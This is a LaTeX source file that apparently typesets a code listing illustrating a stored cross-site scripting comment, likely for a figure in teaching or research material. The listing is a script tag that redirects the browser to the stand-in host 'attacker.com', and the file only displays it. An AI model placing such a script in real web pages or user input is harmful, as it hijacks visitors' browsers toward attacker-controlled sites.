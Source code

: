 \documentclass[tikz]{standalone}
\begin{document}
\begin{lrbox}{\storedXssComment}
\begin{lstlisting}[language={}]
<script>
    document.location = 'http://attacker.com';
</script>
\end{lstlisting}
\end{lrbox}


\end{document}
